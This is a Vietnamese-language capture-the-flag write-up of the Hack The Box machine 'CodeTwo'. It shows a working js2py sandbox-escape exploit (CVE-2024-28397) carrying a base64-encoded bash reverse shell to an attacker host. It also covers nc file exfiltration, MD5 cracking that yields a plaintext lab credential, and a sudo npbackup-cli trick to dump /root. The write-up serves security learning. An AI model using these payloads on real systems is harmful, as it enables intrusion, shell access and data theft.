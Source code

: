 ```yaml
---
title: HTB CodeTwo
published: 2025-09-03
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: false
image: "/assets/post_image/code2.png"
---
```


# HTB Labs: CodeTwo

## I. User_Flag
Bước ban đầu scan với nmap trước ta được 2 services
![image](https://hackmd.io/_uploads/B10CR8Lqlg.png)
Có vẻ như ssh ta chưa thể khai thác được gì nên giờ ta đến với web server
![image](https://hackmd.io/_uploads/B1SByD85gx.png)
Đây là một plaform giúp người dùng có thể code nhanh `Javascript` với `IDE` online trên máy chủ. Ta có các dir là `/login`, `/register` và `/download`. Ta sẽ thử reg và login một account để xem chức năng.
Sau một lúc tìm hiểu chức năng thì ta có thể tìm thấy lỗ hỏng `SSTI` ở trong `/dashboard` nơi để ta viết code
![image](https://hackmd.io/_uploads/S1lwlvUcxx.png)
Nhưng có vẻ đã bị sandbox, và filter hết tất cả các hàm có thể khai thác nên có lẽ ta cần download source app ở `/download` để có thể tìm thêm thông tin
![image](https://hackmd.io/_uploads/HknVWwU5ll.png)
ta thấy được source dùng thư viện `js2py`. Đây là thư viện giúp ta có thể code được code `Javascript` trong `Python` như đã thấy ở phía web server và đây cũng giải thích lý do vì sao server chạy `Jinja2` lại có thể code `Javascript` 
![image](https://hackmd.io/_uploads/SyU_R2Lclx.png)
Sau một lúc tìm kiếm, ta thấy được một `CVE-2024-28397` của thư viện này và có public poc [ở đây](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)
Cụ thể lỗ hỏng này cho phép attacker có thẻ `escape` khỏi môi trường `javascript` để có thể `RCE` và thực hiện các lệnh injection ta có được `POC` khai thác và mình sẽ sửa lại một chút để tương thích với bài lab hơn
```javascript 
let cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvNDQ0NCAwPiYxKQ==|base64 -d|bash"; 
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;  
let obj = a(a(a,"__class__"), "__base__");  
function findpopen(o) {  
    let result;    for(let i in o.__subclasses__()) {        let item = o.__subclasses__()[i];        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {            return item;        }        if(item.__name__ != "type" && (result = findpopen(item))) {            return result;        }    }}  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();  
console.log(result);  
result;  
```
Ở `POC` chỉ lệnh `RCE` bình thường nhưng để thuận tiện khai thác mình sẽ thực hiện reverse shell về phía local với payload `(bash -i >& /dev/tcp/10.10.14.66/4444 0>&1)`
![image](https://hackmd.io/_uploads/BkQmTWw5ge.png)
Ta thành công lấy được shell ở local, check dir hiện tại thì đang ở `/home/app/app`, sau một lúc recon thì thấy được một file users.db ở dir `/home/app/app/instance/` có lẽ file này sẽ có thông tin hữu ích để có thể khai thác
Nhưng do shell ở target không có `sqlite3` để đọc dữ liệu nên ta sẽ dùng `nc` để chuyển về local 
![image](https://hackmd.io/_uploads/SyklRWw9xx.png)
Ta thành công get file về và dùng `sqlite3` để check, thấy rằng db có 2 bảng là `code_snippet` và `user`. Check `user` thì thấy các credential của user với `hashed passwd`
![image](https://hackmd.io/_uploads/SkvPkMv9ex.png)
Và ở phần source code ta biết được passwd sẽ được encrypt bằng `MD5` nên ta có thể dùng `John` để crack dễ dàng. Mình sẽ dùng wordlist `rockyou`
![image](https://hackmd.io/_uploads/H1kEGfv5ee.png)
Giờ ta đã có credential hoàn chỉnh `marco:swetangelbabylove` giờ thì có thể login với ssh server và lấy được `user_flag`
![image](https://hackmd.io/_uploads/H13uMMD9le.png)

## II. Root flag

Check với `sudo -l`, ta thấy có một process có thể run với toàn quyền `root` là `/usr/local/bin/npbackup-cli`. 
![image](https://hackmd.io/_uploads/BJ5oGfPcxl.png)
`npbackup-cli (Portable Network Backup Client)` đây là công cụ `CLI` để tạo và quản lý backup, hỗ trợ snapshot, restore, kiểm tra tính toàn vẹn, và housekeeping. Và file config mặc định sẽ là `npbackup.conf` cũng được tìm thấy ngay tại thư mục hiện tại
```config
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```
Hãy tưởng tượng sẽ thế nào nếu phần config thay vì chỉ backup ở dir là `/home/app/app` thì mình sẽ đổi lại thành `/root`? Vì vốn dĩ khi config target đã cho ta toàn quyền sudo với `npbackup-cli` thì ta có thể thực hiện việc backup toàn bộ thư mục root và sau đó `dump` ra dữ liệu mà ta cần
Và nên lưu ý, do file ban đầu ta không hề được cấp quyền `write` nên ta có thể xóa luôn file config ban đầu và tạo lại một file mới. Sau đó lưu lại bằng `sudo npbackup-cli -c npbackup.conf -b -f`

Giờ thì ta hoàn toàn có thể dump dễ dàng file `root.txt` ra `sudo npbackup-cli -c npbackup.conf -f --dump /root/root.txt`

![image](https://hackmd.io/_uploads/Hk_tvMD5ee.png)


